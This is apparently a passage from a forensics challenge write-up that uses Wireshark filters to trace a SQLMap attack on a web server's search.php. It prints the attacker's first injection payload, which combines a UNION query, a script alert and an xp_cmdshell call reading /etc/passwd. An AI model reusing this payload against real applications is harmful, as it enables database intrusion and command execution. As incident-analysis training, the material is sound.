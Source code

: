 At this stage of the chain, it is most likely that we have to find the script coming from `SQLMap`. Since that is the case, most SQL Injection exists in the URL. Let's filter all those packets:

![](/assets/img/Pasted image 20240724222608.png)

Its not this:

![](/assets/img/Pasted image 20240724222701.png)

Let's look further:

![](/assets/img/Pasted image 20240724222746.png)

	- Nope, this is for image files.


- Changing the Wireshark filter:
```c
http.user_agent contains "sql"
```

![](/assets/img/Pasted image 20240724223351.png)


-> Answer: `search.php`

### Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, What's the complete request URI of the ***first*** SQLi attempt by the attacker?

First SQLi attempt with `SQLMap`:
```c
/search.php?search=book&ZscL=7696%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23
```

Converted to human-readable URL encoding:
```php
/search.php?search=book&ZscL=7696 AND 1=1 UNION ALL SELECT 1,NULL,'<script>alert("XSS")</script>',table_name FROM information_schema.tables WHERE 2>1--/**/; EXEC xp_cmdshell('cat ../../../etc/passwd')#
```

Vulnerabilities:
```c
- XSS : 
- Local file inclusion : 'cat ../../../etc/passwd'
- Command execution inside the SQL database and gets reflected on the web server
```

-> Answer: 
```php
/search.php?search=book&ZscL=7696 AND 1=1 UNION ALL SELECT 1,NULL,'<script>alert("XSS")</script>',table_name FROM information_schema.tables WHERE 2>1--/**/; EXEC xp_cmdshell('cat ../../../etc/passwd')#
```
